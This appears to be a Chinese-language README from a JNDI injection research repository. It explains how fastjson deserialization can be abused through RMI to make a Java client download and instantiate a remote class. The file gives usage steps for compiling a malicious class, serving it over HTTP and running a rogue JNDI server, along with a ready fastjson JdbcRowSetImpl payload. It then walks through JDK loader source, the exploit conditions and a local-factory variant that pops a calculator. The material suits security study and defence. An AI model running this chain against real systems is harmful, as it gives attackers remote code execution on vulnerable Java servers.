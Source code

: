 # 一、JndiServerWithRemoteJar

## 1.1 使用
1. 编译恶意文类：javac RemoteEvilObject.java 
2. 打包：jar cvf  remote.jar  RemoteEvilObject.class
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServerWithRemoteJar.main
4. 使用fastjson的poc即可触发漏洞
```json
{
  "aaa": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "bbb": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/anything","autoCommit":true}
}
```

## 1.2 说明
服务端将一个`ReferenceWrapper`对象绑定到`anything`上，这个对象中`Reference`设置了一个远端地址。当客户端
执行`InitialContext.lookup()`时，会进入`com.sun.jndi.rmi.registry.RegistryContext.decodeObject`，
进而执行`NamingManager.getObjectInstance`获取`Reference`实例对象，本例中就是`RemoteEvilObject`，进而
调用`javax.naming.spi.NamingManager.getObjectFactoryFromReference()`由于本地ClassPath中没有这个类，
就会去远端下载（因为`factoryLocation`的值不以`/`结尾，所以会按照jar包去解析下载的数据（原因参考`2.2`），因
此需要在第2步中进行打包为jar），下载后就会根据这个类创建对象，从而触发漏洞。
```java
public class NamingManager {

    /**
     * Retrieves the ObjectFactory for the object identified by a reference,
     * using the reference's factory class name and factory codebase
     * to load in the factory's class.
     * @param ref The non-null reference to use.
     * @param factoryName The non-null class name of the factory.
     * @return The object factory for the object identified by ref; null
     * if unable to load the factory.
     */
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 尝试从本地获取Class
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // 本地ClassPath中找不到这个类，则从ref中设置的codebase中读取
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
}
```
下载的调用栈信息如下
```text
sun.net.www.protocol.http.Handler.openConnection(Handler.java:62)
sun.net.www.protocol.http.Handler.openConnection(Handler.java:57)
java.net.URL.openConnection(URL.java:971)
sun.net.www.protocol.jar.JarURLConnection.<init>(JarURLConnection.java:84)
sun.net.www.protocol.jar.Handler.openConnection(Handler.java:41)
java.net.URL.openConnection(URL.java:971)
sun.misc.URLClassPath$JarLoader.getJarFile(URLClassPath.java:708)
sun.misc.URLClassPath$JarLoader.access$600(URLClassPath.java:587)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:667)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:660)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath$JarLoader.ensureOpen(URLClassPath.java:659)
sun.misc.URLClassPath$JarLoader.<init>(URLClassPath.java:610)
sun.misc.URLClassPath$3.run(URLClassPath.java:362)
sun.misc.URLClassPath$3.run(URLClassPath.java:352)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath.getLoader(URLClassPath.java:351)
sun.misc.URLClassPath.getLoader(URLClassPath.java:328)
sun.misc.URLClassPath.getResource(URLClassPath.java:194)
java.net.URLClassLoader$1.run(URLClassLoader.java:358)
java.net.URLClassLoader$1.run(URLClassLoader.java:355)
java.security.AccessController.doPrivileged(Native Method)
java.net.URLClassLoader.findClass(URLClassLoader.java:354)
java.lang.ClassLoader.loadClass(ClassLoader.java:423)
java.net.FactoryURLClassLoader.loadClass(URLClassLoader.java:789)
java.lang.ClassLoader.loadClass(ClassLoader.java:356)
java.lang.Class.forName0(Native Method)
java.lang.Class.forName(Class.java:266)
com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:85)
javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158) 
javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:456)
com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:120)
com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:203)
javax.naming.InitialContext.lookup(InitialContext.java:411)
JndiClient.main(JndiClient.java:28)
```

## 1.3 限制
利用条件如下：

1. RMI客户端的上下文环境允许访问远程Codebase。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。

    然而从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。
    当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。
    使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

**这也是为什么RMI的方式并不是那么通用的原因**

# 二、JndiServerWithRemoteClass

## 2.1 使用

1. 编译恶意文类：javac RemoteEvilObject.java 
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServerWithRemoteClass.main
4. 使用fastjson的poc即可触发漏洞

## 2.2 说明

跟进`sun.misc.URLClassPath#getLoader(Final Url url)`可知，当`url.getFile()`以`/`结尾时，
就会去该url下载具体的类名。本例中就是去`http://127.0.01:8086/`下载`RemoteEvilObject.class`。
如下为`getLoader`源码。
```java
public class URLClassPath {
    /*
     * Returns the Loader for the specified base URL.
     */
    private Loader getLoader(final URL url) throws IOException {
        try {
            return java.security.AccessController.doPrivileged(
                new java.security.PrivilegedExceptionAction<Loader>() {
                public Loader run() throws IOException {
                    String file = url.getFile();
                    if (file != null && file.endsWith("/")) {
                        if ("file".equals(url.getProtocol())) {
                            return new FileLoader(url);
                        } else {
                            return new Loader(url);
                        }
                    } else {
                        return new JarLoader(url, jarHandler, lmap);
                    }
                }
            });
        } catch (java.security.PrivilegedActionException pae) {
            throw (IOException)pae.getException();
        }
    }
}
```

# 三、JndiServerUseLocalClassFactory
Jndi提供的`ReferenceWrapper`包含的Class对象在客户端的ClassPath中存在，就不存在访问远程Codebase的限制了

## 3.1 使用
1. 直接运行`JndiServerUseLocalClassFactory`
2. 客户端运行即可弹出计算器

# 参考
1. [关于 JNDI 注入](https://paper.seebug.org/417/)
2. [如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)
3. [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
4. [BlackHat 2016 回顾之 JNDI 注入简单解析](https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/)